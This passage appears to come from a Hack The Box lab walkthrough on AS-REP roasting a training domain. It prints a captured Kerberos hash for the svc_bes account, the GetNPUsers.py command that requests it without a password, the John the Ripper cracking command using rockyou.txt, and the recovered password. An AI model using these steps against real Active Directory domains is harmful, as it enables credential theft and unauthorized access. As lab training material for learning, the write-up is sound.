 <div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image146.png"></div>


Below out TGT ticket
``` code
$krb5asrep$23$svc_bes@MEGACORP.LOCAL:0969b177c87205436a4ef15e3227c3af$f967e09d463ebcfa60a01c5ddb3606de78b62d8629e8de55578236534abf7a8442f3b07dfe0b8fa622dceabb66586c99dec8a3e4629a099fb01acc5721e0ca5ebf59fa0f6841f456a7a855ded8fb2b5860066cca671c8ea362c335c5a1a0bde1a9091b629535fec165388e46b3069c002dd45569a89f6d30f9139911968364ae84bf06de3d39cdcbb3a44b373f71c3ff3f030f3896fa4f698693889e8677136e942d9ba1e3175dc70e67f1b998d52170f3347dcc766fda831f9cd5d1f7d94706f3b423a9bf75869a6772280f69d2f2855a3b855ee221f053478f7e54c98c7fde493f85ce3cec16e47f0c20ced4a65b14
```
Once obtained the TGT ticket for the **svc\_bes,** let’s save it into a
file called hash(it could be any name).
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image147.png"></div>

We could have also used:
``` shell 
GetNPUsers.py megacorp.local/svc\_bes -request -no-pass -dc-ip 10.10.10.30 | grep krb > hash
```
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image148.png"></div>
<a name="Sheffield19"></a>
We will use JTR in conjunction with rockyou.txt to obtain the plaintext
password (but we could have also used Hashcat)
``` shell 
kali@kali:~/HTB/StartingPoint/Pathfinder$  john hash -wordlist=/usr/share/wordlists/rockyou.txt
```
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image149.png"></div>

Below the password for **svc\_bes : Sheffield19**
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img  width="50%"  src="media/image150.png"></div>
